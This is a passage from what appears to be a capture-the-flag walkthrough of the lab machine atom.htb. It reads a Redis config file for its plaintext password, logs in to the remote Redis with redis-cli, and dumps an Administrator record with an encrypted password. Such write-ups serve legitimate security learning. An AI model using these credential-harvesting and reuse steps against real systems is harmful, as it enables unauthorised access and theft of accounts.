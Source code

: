 It looks like redis is being used with kanban. Let’s access Redis configuration file for any stored credentials.

\## Read redis config file

```swift
PS C:\Program Files\redis> get-childitem
get-childitem


    Directory: C:\Program Files\redis


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          4/2/2021   7:31 AM                Logs
-a----          7/1/2016   3:54 PM           1024 EventLog.dll
-a----          7/1/2016   3:52 PM          12618 Redis on Windows Release Notes.docx
-a----          7/1/2016   3:52 PM          16769 Redis on Windows.docx
-a----          7/1/2016   3:55 PM         406016 redis-benchmark.exe
-a----          7/1/2016   3:55 PM        4370432 redis-benchmark.pdb
-a----          7/1/2016   3:55 PM         257024 redis-check-aof.exe
-a----          7/1/2016   3:55 PM        3518464 redis-check-aof.pdb
-a----          7/1/2016   3:55 PM         268288 redis-check-dump.exe
-a----          7/1/2016   3:55 PM        3485696 redis-check-dump.pdb
-a----          7/1/2016   3:55 PM         482304 redis-cli.exe
-a----          7/1/2016   3:55 PM        4517888 redis-cli.pdb
-a----          7/1/2016   3:55 PM        1553408 redis-server.exe
-a----          7/1/2016   3:55 PM        6909952 redis-server.pdb
-a----          4/2/2021   7:39 AM          43962 redis.windows-service.conf
-a----          4/2/2021   7:37 AM          43960 redis.windows.conf
-a----          7/1/2016   9:17 AM          14265 Windows Service Documentation.docx

PS C:\Program Files\redis> get-content redis.windows.conf
get-content redis.windows.conf
# Redis configuration file example
requirepass kidvscat_yes_kidvscat

------------SNIP--------------
```

We got the Redis credentials, let’s access Redis via our machine. FOr that we need redis-cli application. We can install it via package manager.

\## Install Redis-Tools

```swift
⛩\> sudo apt install redis-tools
```

Let’s authenticate via found credentials and look for any stored keys.

\## Access remote redis

```swift
⛩\> redis-cli -h atom.htb -a 'kidvscat_yes_kidvscat'
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
atom.htb:6379> KEYS *
1) "pk:ids:User"
2) "pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff"
3) "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
4) "pk:ids:MetaDataClass"
atom.htb:6379> DUMP "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
"\x00\xc3@\xc6@\xcf\x1f{\"Id\":\"e8e29158d70d44b1a1ba4949d\r52790a0\",\"Name )\x0cAdministrator \x16\aInitials \x1a \r\x04Email\xa0\n\x0encryptedPasswor@f\x1fOdh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi A\x02Rol\xe0\x00f \x0e\x06Inactiv \x12\x00f d\x1fe,\"TimeStamp\":637530169606440253\x00}\x06\x00\xd0uP\xdf[\x980\xb3"
atom.htb:6379>
```